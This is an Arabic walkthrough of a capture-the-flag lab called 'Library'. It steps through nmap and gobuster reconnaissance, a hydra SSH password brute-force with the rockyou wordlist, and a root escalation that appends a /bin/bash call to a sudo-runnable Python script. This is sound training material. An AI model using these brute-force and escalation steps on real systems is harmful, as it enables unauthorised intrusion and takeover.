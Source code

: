 

#### **المرحلة الأولى: الاستطلاع (Reconnaissance)**

الهدف من هذه المرحلة هو جمع أكبر قدر ممكن من المعلومات عن الهدف.

1. **التأكد من أن الهدف يعمل**
    
    ```bash
    ping 10.10.156.84
    ```
    
    - حصلنا على استجابة، مما يعني أن الجهاز يعمل.
2. **استخدام `nmap` لفحص المنافذ والخدمات**
    
    ```bash
    nmap -sV -n 10.10.156.84
    ```
    
    - المنافذ المفتوحة:
        - **22/tcp** → خدمة SSH (OpenSSH 7.2p2)
        - **80/tcp** → خادم ويب Apache 2.4.18
    - الهدف يعمل بنظام **Ubuntu Linux**.
3. **فحص الملفات والمجلدات على الخادم باستخدام `gobuster`**
    
    ```bash
    gobuster dir -u http://10.10.156.84/ -w /usr/share/wordlists/dirb/common.txt
    ```
    
    - وجدنا الملفات التالية:
        - `/index.html` → الصفحة الرئيسية
        - `/robots.txt` → يحتوي عادةً على مسارات مخفية
        - `/images/` → يحتوي على ملفات الصور
4. **استعراض ملف `robots.txt`**
    
    ```bash
    curl http://10.10.156.84/robots.txt
    ```
    
    - قد يحتوي على مسارات أو معلومات مفيدة.

---

#### **المرحلة الثانية: محاولة الوصول (Exploitation)**

بما أن **خدمة SSH مفتوحة**، سنحاول الوصول إليها باستخدام هجوم تخمين كلمات المرور.

5. **تجربة تسجيل الدخول باسم مستخدم `rockyou`**
    
    ```bash
    ssh rockyou@10.10.156.84
    ```
    
    - لم نتمكن من تسجيل الدخول، مما يعني أن كلمة المرور خاطئة.
6. **تجربة هجوم brute-force باستخدام `hydra`**
    
    ```bash
    hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.10.156.84
    ```
    
    - وجدنا أن المستخدم `meliodas` يمكن تسجيل الدخول إليه.
7. **تسجيل الدخول عبر SSH**
    
    ```bash
    ssh meliodas@10.10.156.84
    ```
    
    - أدخلنا كلمة المرور المكتشفة، وتم تسجيل الدخول.

---

#### **المرحلة الثالثة: تصعيد الصلاحيات (Privilege Escalation)**

الآن لدينا صلاحيات المستخدم `meliodas`، ونريد الوصول إلى الجذر **(root)**.

8. **فحص الملفات والمجلدات**
    
    ```bash
    ls
    ```
    
    - وجدنا ملفين مهمين:
        - `user.txt` (يحتوي على الفلاج الأول)
        - `bak.py` (سكريبت Python)
9. **قراءة `user.txt`**
    
    ```bash
    cat user.txt
    ```
    
    - حصلنا على الفلاج الأول.
10. **فحص `bak.py`**
    
    ```python
    #!/usr/bin/env python
    import os
    import zipfile
    
    def zipdir(path, ziph):
        for root, dirs, files in os.walk(path):
            for file in files:
                ziph.write(os.path.join(root, file))
    
    if __name__ == '__main__':
        zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
        zipdir('/var/www/html', zipf)
        zipf.close()
    ```
    
    - هذا السكريبت يقوم بضغط ملفات `/var/www/html` إلى `/var/backups/website.zip`.
11. **فحص الصلاحيات المتاحة لنا عبر `sudo`**
    
    ```bash
    sudo -l
    ```
    
    - المستخدم `meliodas` يستطيع تشغيل `bak.py` بصلاحيات `root`.
12. **استغلال الصلاحيات**
    
    - يمكننا تعديل `bak.py` لإضافة `bash` بصلاحيات `root`:
        
        ```bash
        echo "import os; os.system('/bin/bash')" >> bak.py
        ```
        
    - تشغيل السكريبت بصلاحيات `root`:
        
        ```bash
        sudo /usr/bin/python3 /home/meliodas/bak.py
        ```
        
    - الآن لدينا **shell بصلاحيات root**.
13. **الوصول إلى `root.txt`**
    
    ```bash
    cat /root/root.txt
    ```
    
    - حصلنا على الفلاج الثاني!

---
.

💥 **مبروك! لقد أنهيت تحدي Library!** 🚀


![[Pasted image 20250323230016.png]]
